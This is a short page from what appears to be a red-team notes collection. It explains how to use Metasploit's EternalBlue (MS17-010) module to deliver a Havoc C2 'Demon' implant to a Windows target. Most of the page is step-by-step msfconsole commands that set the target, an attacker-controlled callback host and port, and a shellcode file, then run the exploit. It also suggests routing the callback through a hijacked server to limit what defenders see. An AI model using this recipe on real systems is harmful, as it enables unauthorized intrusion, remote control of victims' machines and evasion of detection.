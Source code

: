 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - havoc
  - windows
credits:
  - p4p1
---
```

# Havoc

> [!NOTE]
> This section is subjected to change with different exploits as they get patched as time passes.

Unlike [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Exploit Vulnerable Service/Cobalt Strike|cobalt strike]] exploitation setup. This particular payload type only requires a custom generated implant in this case **Havoc's Demon Agent**. We'll be using eternablue as an example.

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue

msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/custom/reverse_tcp

msf6 exploit(windows/smb/ms17_010_eternalblue) > options
```

Set the target's IP address.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts <target_IP>
```

Specify the C2's IP address and port. The best part about this is you can simply set the custom implant and use any SSH server (or hijacked server) as the only indicator of compromise that the defenders will look at the traces.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost <attacker_IP>

msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport <attacker_PORT>

msf6 exploit(windows/smb/ms17_010_eternalblue) > set shellcode_file /local/path/to/demon.x64.bin
```

Exploit the target and you should receive an agent callback on your C2.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

---
## References

- [p4p1: Extending Havoc payloads through metasploit](https://leosmith.wtf/blog/metasploit-and-havoc.html)